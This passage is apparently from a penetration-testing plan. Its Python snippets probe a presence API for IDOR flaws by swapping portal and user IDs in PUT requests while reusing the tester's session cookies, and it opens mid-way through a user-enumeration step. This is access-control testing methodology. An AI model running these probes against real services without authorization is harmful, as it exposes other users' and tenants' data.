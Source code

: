 ```python
    return valid_users
```

**Expected Result:**
- List of valid user IDs in portal
- User count estimation
- Active user identification

---

### 3. IDOR Testing - Cross-Portal Access

**Objective:** Test if user can access data from other portals

**Method:**
```python
def test_idor_portal(my_portal_id, target_portal_id):
    """
    Test IDOR by changing portal ID
    """
    # My legitimate request
    url1 = f"/api/presence/v1/presence/portal/{my_portal_id}/user/{my_user_id}"
    response1 = requests.put(url1, cookies=my_cookies, json={})

    # IDOR attempt
    url2 = f"/api/presence/v1/presence/portal/{target_portal_id}/user/{my_user_id}"
    response2 = requests.put(url2, cookies=my_cookies, json={})

    if response2.status_code == 200:
        print(f"✗ IDOR VULNERABILITY: Accessed portal {target_portal_id}")
        return True
    else:
        print(f"✓ Isolation working: {response2.status_code}")
        return False
```

---

### 4. IDOR Testing - Cross-User Access

**Objective:** Test if user can access other users' presence data

**Method:**
```python
def test_idor_user(portal_id, my_user_id, target_user_id):
    """
    Test IDOR by changing user ID
    """
    url = f"/api/presence/v1/presence/portal/{portal_id}/user/{target_user_id}"
    response = requests.put(url, cookies=my_cookies, json={})

    if response.status_code == 200:
        print(f"✗ IDOR: Accessed user {target_user_id}'s data")
        print(f"  Data: {response.json()}")
        return True
    else:
        print(f"✓ Isolation working: {response.status_code}")
        return False
```

---